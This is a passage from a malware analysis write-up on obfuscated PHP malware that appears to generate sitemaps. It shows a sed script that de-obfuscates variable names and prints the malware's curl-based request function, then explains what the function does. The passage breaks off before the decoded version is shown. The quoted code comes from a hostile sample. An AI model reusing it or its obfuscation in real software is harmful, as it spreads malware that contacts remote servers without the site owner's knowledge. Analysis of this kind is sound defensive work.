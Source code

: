 ```bash
s/_royr5j/filereader/g
s/_biw8hck1/filearray/g
s/_79i20/getfilearray/g
s/_kk52mpio/filez/g
s/_v2cr7/filezcontents/g
s/_mn403/filearraycheck/g
s/_nj936vjk/intminus1/g
s/_zg7my/stringreplacer/g
s/_zh7q3s/datahandler/g
s/_5s97u/setupdatahandler/g
s/_zsop1pp/filehandler/g
s/_abtwpw0/webhandler/g
s/_8ml56txq/xmlheader/g
s/_hz6xkygy/xmlfooter/g
s/_5vjv3mu2/xmlbody/g
s/_yzcee/sitemapgen/g
s/_594ub8ay/sitemapxml/g
s/_negl3ygm/sitemapfile/g
s/_cpk4clop/sitemapurl/g
s/_6b5ok2i8/webh/g
s/_t31lu/setup/g
s/_wu68f/initdatahandler/g
s/_d0cfol96/sitepage/g
```

# Classes in Malware

Looking through the malware a few things of note came to mind. The first one was that the malware was using classes, and 5 of them to boot. The second was that a few functions jumped out. The base64 string was present, as was a lot of curl function calls. I decided to start with the analysis there:

```php
static function _2bza6($_fj3v9zd1, $_pdo1wxsa){
        if (!function_exists('curl_version')){
                return "";
        }
        $_q7nz6eha = curl_init();
        curl_setopt($_q7nz6eha, CURLOPT_URL, implode("/", $_fj3v9zd1));
        if (!empty($_pdo1wxsa)){
                curl_setopt($_q7nz6eha, CURLOPT_POST, 1);
                curl_setopt($_q7nz6eha, CURLOPT_POSTFIELDS, $_pdo1wxsa);
        }
        curl_setopt($_q7nz6eha, CURLOPT_RETURNTRANSFER, TRUE);
        $_sxg6rwqh = curl_exec($_q7nz6eha);
        curl_close($_q7nz6eha);
        return $_sxg6rwqh;
}
```

Looking at the function in isolation, we can see that the function early exists, if curl is not built in to php. Assuming it is, "$_q7nz6eha" is set to the curl handler. The next couple of arguments are the url to get the data from ($_fj3v9zd1) and the post fields for the connection ($_pdo1wxsa). The only variable left was the returned data ($_sxg6rwqh). The decoded function then, look like this:
